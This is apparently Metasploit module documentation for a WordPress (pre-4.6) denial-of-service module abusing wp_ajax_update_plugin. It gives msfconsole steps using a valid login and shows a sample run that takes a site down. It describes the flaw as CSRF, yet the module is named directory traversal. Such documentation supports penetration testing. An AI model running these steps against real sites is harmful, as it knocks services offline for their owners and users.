 ## Vulnerable Application

This module exploits a Cross-site request forgery (CSRF) vulnerability in the wp_ajax_update_plugin (https://core.trac.wordpress.org/changeset/38168) function in wp-admin/includes/ajax-actions.php in Wordpress before 4.6. Allows remote authenticated users to cause a denial of service (with /dev/random read operations).

You can find the vulnerable application from the official website:
https://wordpress.org/download/release-archive/


## Verification Steps

1. Start msfconsole
2. Do: ```use auxiliary/dos/http/wordpress_directory_traversal_dos.rb```
3. Do: ```set RHOST <ip target site>```
4. Do: ```set TARGETURI <WordPress path>```
5. Do: ```set USERNAME <Valid Username>```
6. Do: ```set PASSWORD <Valid Password>```
7. Do: ```exploit```
8. WordPress website should be down

## Scenarios
### Wordpress 4.5.3 on Linux Mint 17.3
https://wordpress.org/wordpress-4.5.3.tar.gz


```
msf auxiliary(wordpress_directory_traversal_dos) > exploit

[*] Checking if user "test" exists...
[+] Username "test" is valid
[*] Executing requests 1 - 5...
[+] Finished executing requests 1 - 5
[*] Executing requests 6 - 10...
[+] Finished executing requests 6 - 10
...
[*] Executing requests 191 - 195...
[+] Finished executing requests 191 - 195
[*] Executing requests 196 - 200...
[+] Finished executing requests 196 - 200
[+] SUCCESS: /wordpress appears to be down
[*] Auxiliary module execution completed
```
